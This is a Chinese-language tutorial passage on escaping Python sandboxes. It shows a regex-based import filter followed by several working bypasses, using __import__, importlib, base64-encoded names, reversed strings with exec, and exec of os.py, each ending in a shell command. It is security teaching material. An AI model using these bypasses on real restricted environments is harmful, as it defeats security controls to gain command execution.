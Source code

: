 ## 函数导入限制和绕过
### import
一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```python
import re,sys

pattern  = re.compile('import\s+(os|subprocess)')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```python
__import__('os').system('ls')
```
```python
__import__
importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用
```python
>>> import base64

>>> base64.b64encode("os")
'b3M='
>>> flag = __import__(base64.b64decode('b3M='))
>>> flag.system('whoami')
misaki\user

>>> import importlib

>>> flag = importlib.import_module('b3M='.decode('base64'))
>>> flag.system('whoami')

misaki\user
```
![01_02-01](../../../image/编码/Python/沙箱逃逸/01_02-01.png)

或者使用字符串拼接的方式
```python
>>> __import__('o'+'s').system('who'+'ami')
aiuser
0
```

字符串f翻转截取
```python
>>> __import__('so'[::-1]).system('whoami')
aiuser
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
aiuser
```

再万一，还可以这么禁止
```python
import re,sys

pattern  = re.compile('import')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile
```python
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径
>>> system('whoami')
aiuser
```

python3可以利用读取文件，配合exec来执行
```python
>>> f = open(r'/usr/lib/python3.6/os.py','r')
>>> exec(f.read())
>>> system('whoami')
aiuser

# 不可以执行利用 exec 打开读取，exec 需要执行的是其中的内容，直接打开的时候 exec 执行的就是读取文件操作
exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式
```python
>>> with open(r'/usr/lib/python3.6/os.py','r') as f:
...     exec(f.read())
...
>>> system('whoami')
aiuser
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。
```python
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')
aiuser
```
这里 exec 不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

